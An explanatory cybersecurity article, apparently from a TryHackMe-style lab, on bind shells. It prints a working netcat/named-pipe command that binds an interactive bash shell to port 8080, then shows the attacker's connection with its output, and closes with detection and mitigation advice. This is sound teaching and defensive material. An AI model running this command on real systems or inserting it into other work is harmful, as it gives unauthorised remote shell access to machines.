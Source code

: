 ### Understanding Bind Shells in Cybersecurity

A bind shell is a type of shell connection where the compromised machine “binds” to a specific port and waits for a remote connection. Once the attacker connects to this port, they gain remote access to the shell on the target system, allowing them to execute commands as if they were physically at the machine. This method is particularly useful when the compromised target does not allow outgoing connections, though bind shells are less common due to their detectability since they maintain an open, listening port.

---

### How Bind Shells Work

**1. Setting Up the Bind Shell on the Target Machine**

To create a bind shell, an attacker can execute a command on the target system that sets up a shell bound to a specific port. Here’s an example of such a command using **Netcat** (a versatile networking utility) and **Bash**:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

Let’s break down the components of this command to understand how it works:

   - **`rm -f /tmp/f`**: This removes any existing file at `/tmp/f`. This step ensures there is no conflict when creating a new named pipe.
   - **`mkfifo /tmp/f`**: This command creates a named pipe, also known as a FIFO (First In, First Out) file, at `/tmp/f`. Named pipes facilitate bidirectional communication between processes by reading and writing to a single file.
   - **`cat /tmp/f`**: Reads input from the named pipe and waits for data to be written into it.
   - **`| bash -i 2>&1`**: Pipes the output from `cat` to an interactive bash shell (`bash -i`). The `2>&1` ensures that any errors are sent back to standard output, so the attacker can see them.
   - **`| nc -l 0.0.0.0 8080`**: Launches Netcat in listen mode on all interfaces (`0.0.0.0`) on port `8080`. This opens up a port on the target machine, which will listen for an incoming connection from the attacker.
   - **`> /tmp/f`**: Sends output from the commands executed by the attacker back into the named pipe, enabling bidirectional (two-way) communication.

This command effectively sets up a listener on port 8080, awaiting an incoming connection. When an attacker connects, they gain access to an interactive shell on the target.

> **Note**: Ports below 1024 require administrative privileges, so choosing a higher port like 8080 avoids permission issues.

---

### Example Walkthrough of a Bind Shell Attack

#### **1. Terminal on the Target Machine (Bind Shell Setup)**

After executing the command above on the target machine, it will remain in a waiting state, listening for an incoming connection.

```bash
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

The shell is now bound to port 8080 on the target system and will provide the attacker with access once a connection is established.

#### **2. Attacker’s Connection to the Bind Shell**

With the bind shell established, the attacker can connect using Netcat from their own machine with the following command:

```bash
nc -nv TARGET_IP 8080
```

Explanation of this command:

   - **`nc`**: Invokes Netcat to establish the connection.
   - **`-n`**: Disables DNS resolution, making the connection faster.
   - **`-v`**: Verbose mode, providing feedback such as when the connection is successful.
   - **`TARGET_IP`**: The IP address of the target machine.
   - **`8080`**: The port number where the bind shell is listening.

Once connected, the attacker will see output similar to this:

```bash
attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```

After the connection is established, the attacker has shell access and can execute commands on the target.

---

### Pros and Cons of Using Bind Shells

#### **Advantages**
   - **No Outgoing Connections Required**: Ideal for scenarios where the target firewall blocks outgoing connections.
   - **Direct Access**: Once connected, the attacker has direct shell access, allowing for a wide range of activities.

#### **Disadvantages**
   - **Detectable Open Ports**: The bind shell’s listening port can be detected by security monitoring tools, increasing the likelihood of detection.
   - **Firewall Issues**: If a firewall blocks incoming connections to the designated port, the attacker’s connection attempt will fail.

---

### Security Implications and Defenses Against Bind Shells

#### **Detection Techniques**
   - **Port Scanning**: Regular scans for unusual open ports (especially those commonly used for bind shells, like 8080 or high-numbered ports) can help detect bind shells.
   - **Intrusion Detection Systems (IDS)**: Tools like Snort or Suricata can monitor for suspicious traffic, such as unexpected listening ports or connection attempts.
   - **Log Monitoring**: Analyze logs for unusual or unauthorized commands, especially those creating and using named pipes or involving Netcat in listen mode.

#### **Mitigation Strategies**
   - **Firewall Rules**: Configure firewalls to restrict incoming connections on non-standard ports or ports not essential for the application.
   - **Application Whitelisting**: Only allow specific applications and ports to run, which can help prevent Netcat or unauthorized shell instances from being executed.
   - **Network Segmentation**: Isolate sensitive servers, making it harder for an attacker to access them even if they gain control of one system.
   - **Endpoint Detection and Response (EDR)**: EDR solutions can detect unusual patterns in processes, such as pipes being created in `/tmp/` directories and Netcat being run with `-l` mode.

By understanding bind shells, organizations can implement stronger network monitoring, port restrictions, and intrusion detection techniques to reduce the risk of a successful bind shell attack. Regular audits, coupled with proactive security measures, can go a long way in ensuring the safety of server environments from unauthorized access attempts.
